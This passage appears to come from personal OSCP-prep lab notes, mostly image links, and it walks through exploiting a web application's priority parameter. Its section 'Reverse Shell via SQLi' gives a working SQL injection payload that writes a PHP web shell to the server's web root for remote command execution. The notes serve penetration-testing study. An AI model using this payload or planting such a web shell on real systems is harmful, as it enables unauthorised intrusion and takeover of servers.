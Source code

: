 ![](../../../assets/681e47e74e2ff351dc6903de6d17d02b.png)

We now got a `200` code, however it still showed us the **Normal** priorities as well:

![](../../../assets/53cfeb39005ac2cd7a458376413f9b5d.png)


### Reverse Shell via SQLi

Now we will encode the following payload as URL so we can get RCE.

```SQL
High' UNION SELECT '<?php echo system($_GET["cmd"]);' INTO OUTFILE '/srv/http/cmd.php'; --
```

![](../../../assets/d0714dd70c1f1df9d51d02b9e532caf1.png)


[^Links]:  [[OSCP Prep]]